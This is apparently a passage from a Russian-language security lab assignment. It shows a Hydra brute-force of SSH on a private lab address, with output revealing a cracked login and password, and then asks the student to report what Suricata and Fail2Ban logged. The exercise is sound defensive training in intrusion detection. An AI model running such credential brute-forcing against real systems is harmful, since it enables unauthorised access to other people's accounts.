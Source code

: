 **Пароль подобран**
```
┌──(kali㉿kali)-[~]
└─$ hydra -L users.txt -P pass.txt 192.168.124.137 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-20 13:30:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 255 login tries (l:15/p:17), ~16 tries per task
[DATA] attacking ssh://192.168.124.137:22/
[22][ssh] host: 192.168.124.137   login: cryptouser   password: 12345
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-20 13:31:19
```

*В качестве ответа пришлите события, которые попали в логи Suricata и Fail2Ban, прокомментируйте результат.*
